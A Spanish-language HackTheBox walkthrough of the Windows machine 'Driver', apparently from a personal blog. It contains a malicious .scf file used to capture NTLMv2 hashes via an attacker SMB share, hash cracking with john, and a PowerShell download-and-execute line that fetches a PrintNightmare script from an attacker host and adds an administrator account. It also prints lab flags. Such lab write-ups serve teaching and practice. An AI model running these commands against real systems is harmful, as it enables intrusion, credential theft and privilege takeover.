 ```yaml
---
title: HackTheBox - Driver
author: cotes
date: 2023-09-06 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Windows, 'File Upload (scf)', 'PrintNightmare (CVE-2021-1675)']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Driver/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Driver Machine Logo
---
```


Máquina Windows de nivel **Easy** de HackThBox.

Técnicas usadas: **File Upload (scf), PrintNightmare (CVE-2021-1675)**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Driver/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos.

* **`nmap -p<Ports> -sC  <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Driver/02-versions.png)

c. Si vamos al sitio nos pedirá credenciales, y al no disponer de ninguna, usamos las más comunes **admin:admin, root:root, admin:password*

![](/assets/images/HTB/Easy/Driver/03-web.png)

* Cosas más importantes
    + [x] Podemos subir cualquier tipo de archivo.
    + [x] El mensaje en la página web nos dice que al momento de subir un fichero, el equipo de testing lo revisará.

Después de intentar subir múltiples ficheros y no conseguir nada, investigamos formas de obtener una reverse shell o credenciales de usuario.

> Los archivos [**.scf**](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/) sirven para la configuración de la apariencia de Windows.
{: .prompt-info }

Subimos un fichero .scf con el siguiente contenido

```scf
[Shell]
Command=2
IconFile=\\<IP tun0>\share\favicon.ico
[Taskbar]
Command=ToggleDesktop
```

> En el momento en el que alguien acceda a este fichero, se emitirá una solicitud a un servidor que estará en nuestro control, aquí se producirá una autenticación y podremos el hash **NLTMv2** del usuario.
{: .prompt-tip }


Antes de subir el fichero montamos un **servidor SMB:** **`impacket-smbserver Share ./ -smb2support`**, ahora subimos el fichero .scf

![](/assets/images/HTB/Easy/Driver/04-smb.png)

Crackeamos el hash con **john** 

```bash
john hash -w=/usr/share/wordlists/rockyou.txt
liltony
```

d. Ahora, con las credenciales anteriores nos podemos conectar en el servicio **WinRM**

```bash
evil-winrm -i <IP Driver> -u 'tony' -p 'liltony'
```

### Escalada de Privilegios 💹

a. Subimos el script [WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS) para analizar posibles vectores de escalación de privilegios

```bash
*Evil-WinRM* PS C:\Users\tony> .\winPEASx64.exe

<SNIP>
Listening      1160            spoolsv
```

> El contexto de la Máquina va de impresoras, así que buscamos algo relacionado a este servicio e impresoras. [PrintNightmare](https://github.com/calebstewart/CVE-2021-1675)
{: .prompt-info }

b. Ahora, nos descargamos el script de Github y montamos un servidor con python **`python -m http.server 80`**. Ahora, desde evil-winrm realizamos una petición y ejecutamos el script directamente, todo esto con el fin de bypassear una restricción que se presenta al ejecutar el script

```powershell
*Evil-WinRM* PS C:\Users\tony> IEX(New-Object Net.WebClient).DownloadString('http://<IP tun0>/CVE-2021-1675.ps1')
```

* Ahora creamos un usuario el cual será añadido al grupo **Administrators**

    ```powershell
    *Evil-WinRM* PS C:\Users\tony> Invoke-Nightmare -DriverName "Xerox" -NewUser "estx" -NewPassword "estx@@"
    *Evil-WinRM* PS C:\Users> net localgroup Administrators
    Alias name     Administrators
    Comment        Administrators have complete and unrestricted access to the computer/domain
    Members
    -------------------------------------------------------------------------------
    Administrator
    estx
    ```

c. Estas credenciales nos sirven para conectarnos con evil-winrm

```bash
evil-winrm -i <IP Driver> -u 'estx' -p 'estx@@'

*Evil-WinRM* PS C:\Users\tony\Desktop> type user.txt
b05bd2852ace7cda4c6e7f262e1930d9

*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
84c4d9cd404904925830d6ac28b7ec33
```